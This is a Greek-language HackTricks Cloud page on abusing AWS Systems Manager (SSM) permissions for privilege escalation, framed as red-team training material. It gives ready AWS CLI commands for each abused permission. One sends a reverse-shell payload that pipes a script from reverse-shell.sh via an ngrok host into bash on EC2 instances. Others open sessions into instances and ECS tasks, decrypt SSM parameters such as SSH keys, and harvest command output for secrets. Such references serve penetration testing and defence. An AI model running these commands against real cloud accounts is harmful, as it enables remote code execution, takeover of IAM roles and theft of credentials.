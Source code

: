 # AWS - Προνομιούχα Εξάπλωση SSM

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM, ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελέσει εντολές σε παραδείγματα** που εκτελούν τον Amazon SSM Agent και να **θέσει σε κίνδυνο τον ρόλο IAM** που εκτελείται μέσα σε αυτό.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανές Επιπτώσεις:** Άμεση ανέλιξη προνομίων στους ρόλους EC2 IAM που είναι συνδεδεμένοι με εκτελούμενες περιπτώσεις με ενεργό SSM Agent.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με το SSH σε περιπτώσεις** που εκτελούν τον Amazon SSM Agent και να **θέσει σε κίνδυνο τον ρόλο IAM** που εκτελείται μέσα σε αυτόν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το εργαλείο **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανές Επιπτώσεις:** Άμεση αύξηση προνομίων στους ρόλους EC2 IAM που είναι συνδεδεμένοι με τις εκτελούμενες περιπτώσεις με ενεργοποιημένο το SSM Agent.

#### Αύξηση Προνομίων στο ECS

Όταν τα **ECS tasks** εκτελούνται με την επιλογή **`ExecuteCommand` ενεργοποιημένη**, οι χρήστες με επαρκή δικαιώματα μπορούν να χρησιμοποιήσουν την εντολή `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο container.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό επιτυγχάνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή "exec" και του προορισμένου container με το SSM Session Manager.\
Επομένως, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν ένα κέλυφος μέσα στα ECS tasks** με αυτήν την επιλογή εκτελώντας απλά:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Πιθανές Επιπτώσεις:** Άμεση ανέλιξη προνομίων στους ρόλους `ECS`IAM που είναι συνδεδεμένοι με εκτελούμενες εργασίες με ενεργοποιημένη την `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επανεκκινήσει μια συνεδρία παρόμοια με το SSH σε αντίγραφα που εκτελούν τον Amazon SSM Agent με μια αποσυνδεδεμένη κατάσταση συνεδρίας SSM και να **θέσει σε κίνδυνο τον ρόλο IAM** που εκτελείται μέσα σε αυτό.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανές Επιπτώσεις:** Άμεση αύξηση προνομίων στους ρόλους EC2 IAM που είναι συνδεδεμένοι με εκτελούμενες περιπτώσεις με ενεργούς SSM Agents και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τα αναφερόμενα δικαιώματα θα μπορεί να καταλογογραφήσει τις **παραμέτρους SSM** και να τις **διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορεί συχνά να **βρει ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανές Επιπτώσεις:** Εύρεση ευαίσθητων πληροφοριών μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να καταλογογραφήσει όλες τις **εντολές** που έχουν σταλεί και ελπίζει να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανές Επιπτώσεις:** Εύρεση ευαίσθητων πληροφοριών μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να καταλογογραφήσει όλες τις **εντολές** που έχουν σταλεί και να **διαβάσει την έξοδο** που παράγεται, ελπίζοντας να βρει επάνω της **ευαίσθητες πληροφορίες**.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που εκτελείται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
